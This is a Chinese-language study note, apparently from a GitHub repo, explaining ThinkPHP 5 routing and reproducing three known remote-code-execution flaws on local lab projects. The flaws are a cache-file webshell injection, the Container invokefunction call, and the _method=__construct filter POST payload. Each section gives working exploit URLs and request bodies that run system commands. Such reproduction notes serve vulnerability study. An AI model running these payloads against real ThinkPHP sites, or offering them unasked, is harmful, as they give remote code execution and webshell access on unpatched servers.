




# Thinkphp

## 基本概念

### 执行流程：
1、首先解析伪静态配置规则，位于.htaccess之中

```
例：
Apache伪静态举例
$ <IfModule mod_rewrite.c>
$ Options +FollowSymlinks -Multiviews
$ RewriteEngine On
$ RewriteCond %{REQUEST_FILENAME} !-d
$ RewriteCond %{REQUEST_FILENAME} !-f
$ RewriteRule ^(.*)$ index.php/$1 [QSA,PT,L] </IfModule>
此规则访问路径自动添加前缀index.php
```
2、其次解析路由配置规则，位于route/route.php中

```
例：
1、注册路由到index模块的News控制器的read操作：Route::rule('new/:id','index/News/read');
2、访问：http://serverName/new/5
3、自动路由到：http://serverName/index/news/read/id/5

详细解析：https://www.kancloud.cn/manual/thinkphp5/118030
```
3、application包实现程序逻辑，分为 模块/控制器/方法

```
模块:Application文件夹中的目录名
控制器controller：位于每个模块下，继承app\index\controller的类
方法method：继承controller类中的方法
```

### 访问方式：
1、pathinfo方式访问：http://tp5.com/index.php/index/index/index
```
配置项：
'url_route_on'  =>  false,
```
2、路由方式访问：http://tp5.com/index.php?s=/index/Index/index
```
普通路由配置项：
'url_route_on'  =>  true,

强制路由配置项（此模式下无法触发thinkphp5路由rce，并且所有的方法都需要配置路由规则，否则不能正常访问）：
'url_route_on'  		=>  true,
'url_route_must'		=>  true,
```

## 缓存getshell
### 介绍
本次漏洞存在于 ThinkPHP 的缓存类中。该类会将缓存数据通过序列化的方式，直接存储在 .php 文件中，攻击者通过精心构造的 payload ，即可将 webshell 写入缓存文件。缓存文件的名字和目录均可预测出来，一旦缓存目录可访问或结合任意文件包含漏洞，即可触发 远程代码执行漏洞 。

漏洞影响版本：
	5.0.0<=ThinkPHP5<=5.0.10 
利用条件：
	cache目录可访问
	猜测缓存中的php文件名

### 复现-项目tpdemo1
thinkphp版本5.0.10

1、更改application/index/controller/Index.php代码

```
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return 'Cache success';
    }
}
```
2、访问 http://localhost/tpdemo1/public/?username=mochazz123%0d%0a@eval($_GET[_]);// ，即可将 webshell 写入缓存文件

3、访问webshell执行命令：http://localhost/tpdemo1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=system(ipconfig);


缓存文件命名规则，md5(缓存名变量)，前两位为目录，后30位为文件名


## rce1
### 介绍
本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 远程代码执行漏洞 的产生。

漏洞影响版本： 
	5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30。
利用条件：
	未开启强制路由

### 复现-项目tpdemo2
thinkphp版本为5.1.30

1、更改默认模块为api，并将默认页面放在项目根目录index.php
2、访问http://localhost/tpdemo2/index.php?s=api/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


## rce2
### 介绍
本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 远程代码执行漏洞 的产生。

漏洞影响版本：
	5.0.0<=ThinkPHP5<=5.0.23 、5.1.0<=ThinkPHP<=5.1.30。
利用条件：
	开启debug模式
	未开启强制路由

### 复现-项目tpdemo3
thinkphp版本为5.0.23

1、打开app_debug选项

2、post请求：http://localhost/tpdemo3/public/

data内容：_method=__construct&filter[]=system&server[REQUEST_METHOD]=ipconfig

3、成功执行


## 其他工具

thinkphp log提取：https://github.com/mrknow001/thinkphp-log-analyse
Thinkphp rce扫描脚本：https://github.com/sukabuliet/ThinkphpRCE

